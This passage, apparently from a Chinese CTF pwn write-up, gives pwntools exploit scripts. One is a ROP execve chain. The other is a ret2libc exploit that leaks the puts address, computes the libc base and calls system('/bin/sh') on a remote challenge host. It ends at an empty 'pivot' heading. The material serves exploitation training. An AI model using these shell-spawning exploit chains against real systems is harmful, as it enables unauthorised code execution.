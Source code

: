 ```python
syscall=0x40126c

payload=b'a'*0x28+p64(rax_ret)+p64(59)+p64(rsi_rdx_ret)+p64(0)+p64(0)+p64(rdi_ret)+p64(bin_sh)+p64(syscall)
io.sendline(payload)
io.interactive()
```
## ret2libc
难度：***
### 考察知识点

1. 64位函数调用
2. 泄露libc地址
3. patchelf
```python
from pwn import *

is_local=0
if is_local:
    io=process("./pwn")
else:
    io=remote("10.10.175.100",33241)

elf=ELF("./pwn")
libc=ELF("./lib/libc-2.23.so")

def getLibcBase(name:string):
    target_addr=u64(io.recv(6).ljust(8, b'\x00'))
    std_addr=libc.symbols[name.encode()]
    return target_addr-std_addr
def hexlog(number:int):
    print(hex(number))
def debug():
    gdb.attach(io)
    pause()

puts_plt=elf.plt["puts"]
puts_got=elf.got["puts"]
vuln=elf.symbols["saySomething"]
rdi_ret=0x4011ce


payload=b'a'*0x38+p64(rdi_ret)+p64(puts_got)+p64(puts_plt)+p64(vuln)
io.sendline(payload)

print(io.recvuntil(b"d0?\n"))
libcbase=getLibcBase("puts")

bin_sh=next(libc.search(b'/bin/sh'))+libcbase
system=libc.symbols["system"]+libcbase
payload=b'a'*0x38+p64(rdi_ret)+p64(bin_sh)+p64(system)
io.sendline(payload)

io.interactive()
```
### pivot
难度：***
### 考察知识点
